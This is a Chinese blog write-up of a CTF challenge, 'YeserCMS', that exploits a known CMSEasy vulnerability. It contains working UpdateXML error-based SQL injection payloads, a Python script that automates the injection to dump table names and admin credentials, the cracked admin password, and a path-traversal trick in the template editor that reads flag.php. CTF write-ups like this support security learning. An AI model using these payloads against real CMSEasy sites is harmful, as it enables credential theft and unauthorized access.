



<!--yml
category: 未分类
date: 2022-04-26 14:41:39
-->

# “百度杯”CTF比赛 九月场 YeserCMS 详细解析_「已注销」的博客-CSDN博客_yesercms漏洞

> 来源：[https://blog.csdn.net/drip_big/article/details/105504818](https://blog.csdn.net/drip_big/article/details/105504818)

# “百度杯”CTF比赛 九月场 YeserCMS 详细解析

看题解的，对每个关键步骤做出详细注释

题目内容：

新的CMS系统，帮忙测测是否有漏洞。

## 1 第一步就是了解这是什么cms

百度YeserCMS，没有相关CMS，应该是改了名字。
在网站内找一找，没看到哪里有标志信息，一下几种方式可以辨认

1.  直接用浏览器搜索cms指纹识别
2.  搜索 “手机版 - 购物车 - 留言 - 繁体 - 注册 / 登陆”这样的**标志信息**，找到使用相同类型cms的网站，然后有些网站就会留下Powered by Cms 的信息，比如这样

注：识别cms的方式可以参照[常见的判断网站cms方法](https://blog.csdn.net/qq1124794084/article/details/79218596)
不过自己做的时候直接查找cms指纹识别就好了，识别不出来在想别的办法。

## 2 已知CMSEasy,百度该cms的历史漏洞

找到一个无限制报错漏洞
[无限制报错漏洞](https://www.cnblogs.com/yangxiaodi/p/6963624.html)
给出了注入方式：

```
url: /celive/live/header.php

post：

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx%2527%252C%2528UpdateXML%25281%252CCONCAT%25280x5b%252Cmid%2528%2528SELECT%252f%252a%252a%252fGROUP_CONCAT%2528concat%2528username%252C%2527%257C%2527%252Cpassword%2529%2529%2520from%2520user%2529%252C1%252C32%2529%252C0x5d%2529%252C1%2529%2529%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%2529 
```

由该漏洞可知，以上内容是经过url二次编码得到的结果，故先解码查看（直接百度搜索url解码就行）

```
postdata:
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from cmseasy_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL) 
```

## 3 分析该注入语句，尝试注入

原注入语句是用UpdateXML报错注入，CONCAT连接mid提取的来自cmseasy_user的数据，修改注入语句为：

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECTGROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL) 
```

将选择的表变为information_schema.tables，并且查询表名，结果为

```
XPATH syntax error: '[yesercms_a_attachment,yesercms_' 
```

还有表未爆出，用py脚本跑：
python3

```
import requests
url = 'http://f519a38b813f47619130e22fae5abe4f9a2ff7125379491f.changame.ichunqiu.com//celive/live/header.php'
for i in range(1,999,31):
    postdata = {
    'xajax':'Postdata',
    'xajaxargs[0]':"<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),%s,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>" %str(i)
}
    r = requests.post(url,data=postdata)
    print(r.content[22:53]) 
```

查询出一堆表，搜索一下是否存在user表
找到yesercms_user表

## 4 对yesercms_user进行注入，试图找到管理员账号

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL) 
```

其实就是将原来漏洞的注入语句中的cmseasy_user表换成yesercms_user
**因为输出长度的限制**分1,32和32,64两次注入,结果为：
XPATH syntax error: ‘[admin|ff512d4240cbbdeafada40467’
XPATH syntax error: ‘[7ccbe61]’

[admin|ff512d4240cbbdeafada404677ccbe61]
对密码进行MD5解码（浏览器直接找工具）
[admin|Yeser231]

## 5 登入后台找flag.php

登入之后在管理界面看是否有文件上传点，有没有可以修改直接让后台读取的文件。
在修改模板的位置发现可以利用，
每次修改后台会寻找这些文件并且提交给我们，
我们可以截取报文并修改指向文件的指针(id),
然后台读取flag.php
操作如下：
点击编辑并抓包
改id为flag.php,…/flag.php,…/…/flag.php测试，最后得出flag

注：本实验主要是sql注入的知识点，还有最后通过修改读取文件信息的操作

~~sql注入是真他喵的难~~